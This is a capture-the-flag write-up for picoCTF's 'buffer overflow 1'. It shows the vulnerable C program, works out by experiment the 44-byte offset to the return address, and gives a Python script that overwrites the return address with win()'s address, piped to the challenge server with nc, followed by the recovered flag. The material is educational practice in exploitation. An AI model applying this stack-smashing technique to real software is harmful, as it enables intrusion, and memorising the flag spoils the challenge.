 ![Task desc](../assets/images/buffer-overflow-1_image_1.png)


As in the [buffer overflow 0](buffer%20overflow%200.md), we have a program in C and its code. Let's take a look at it:  
 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


As you can see from the code, we need to activate the `win()` function, but there is no call to it anywhere in the code. This should be done as follows:


* After the `vuln` function is done with its work, instead of returning to `main` (from where it was called), it moved to the beginning of the `win` execution.
* The `vuln` function contains a buffer `buf[BUFSIZE]`, where `BUFSIZE 32`. It also uses the vulnerable function `gets(buf)` to read user input. That is, the excess data will be written to the memory on the stack, which is located immediately after the `buf` buffer.
* На стеку після `buf`, розташовані інші дані, як-от базовий покажчик (EBP/RBP) та адреса повернення.
  
  > [!NOTE]
  > **Return address** - processor reads it from the stack to determine where to jump to execute the code after completing the current function (vuln).


To call `win`, we need tu input in `gets(buf)` enough chars to overwrite `buf `(32 bytes), padding/base pointer, and reach the return address.




Let's run server `nc saturn.picoctf.net &lt;port> ` and try the same approach we used for buffer overflow 0:

![image_2](../assets/images/buffer-overflow-1_image_2.png)


Too short output doesn't change the address `0x804932f`, which is displayed, while a very long input makes changes: `0x61616161`.

Let's decode it with CyberChef:  

![image_3](../assets/images/buffer-overflow-1_image_3.png)




I experimented with the number of characters needed to rewrite the return address and got the following:



![image_4](../assets/images/buffer-overflow-1_image_4.png)
 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (42 char) --> no change                       0x804932f           
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (43 char) --> address remains unchanged      0x804932f
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (44 char) --> address is overwritten        0x8049300  (x00 - \0 null terminator)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (45 char) --> address is overwritten       0x8040061
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (46 char) --> address is overwritten      0x8006161
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (47 char) --> completely overwritten     0x0616161  (or 0x616161)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (48 char) --> 1 byte 0x61(a) was added  0x61616161 (4 bytes of return address are completely overwritten)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (49 char) --> no change                0x61616161
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (50 char) -->                         0x61616161
```



The experiment shows that to completely overwrite a 4-byte return address (the format `0x...` indicates a 32-bit address), an input of **48 characters** is required. In addition, the address is overwritten from right to left, which indicates `Little Endian` byte order. This was hinted at in the task itself:


![image_5](../assets/images/buffer-overflow-1_image_5.png)



Якщо ввід довжиною 48 символів повністю перезаписує 4 байти адреси повернення:



Since the 48-character input (with indices 0-47) completely overwrites the return address:

* The byte with index 44 (45th character) is the first byte written to the return address.
* The byte with index 45 (46th character) is the second byte.
* The byte with index 46 (47th character) is the third byte.
* The byte with index 47 (48th character) is the fourth byte.

This means that **the offset from the beginning of `buf` to the beginning of the return address is 44 bytes**.


Verify it:

* Size of `buf`: 32 bytes.
* Offset = 44 bytes.
* Padding + stored EBP/RBP: 44 - 32 = 12 bytes. (This is the space between the end of `buf` and the beginning of the return address). This is likely to be 12 bytes of padding without EBP, or 8 bytes of padding + 4 bytes of EBP, or another combination depending on the compiler.
* But the exact elements on stack doesn't matter, overall offset matters.



Now we need to geuss address on `win()` in memory. We'll place this address instead of ret address that is shown in console.

I'll use tool `nm`

> [!NOTE]
> `nm` is used for **character analysis** in compiled object files, static libraries, and executable files.
>
> `nm` reads the **symbol table**, which is embedded in the binary file during compilation. 
> **symbol table** is a list of names (characters) used in a program, such as:
> 
> * Function names (such as `main, vuln, win,` or library functions such as `printf, strcpy`).
> * Names of global variables.
> * Names of static variables.


```bash
nm vuln > vuln_addresses.txt
```


![image_6](../assets/images/buffer-overflow-1_image_6.png)


Now let's create a payload. 
It will consist of pattern + `win()` address in **little endian** order. I wrote a Python-script that creates payload:

```python
import sys
import struct

OFFSET = 44

WIN_ADDRESS = 0x080491f6

padding = b'a' * OFFSET

packed_win_address = struct.pack('<I', WIN_ADDRESS)

payload = padding + packed_win_address
payload += b'\n'

sys.stdout.buffer.write(payload)

print("\nPayload (hex):", payload.hex())
```


    
![image_8](../assets/images/buffer-overflow-1_image_8.png)


```shell
python3 exploit.py | nc saturn.picoctf.net 63772
```


![image_9](../assets/images/buffer-overflow-1_image_9.png)



`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
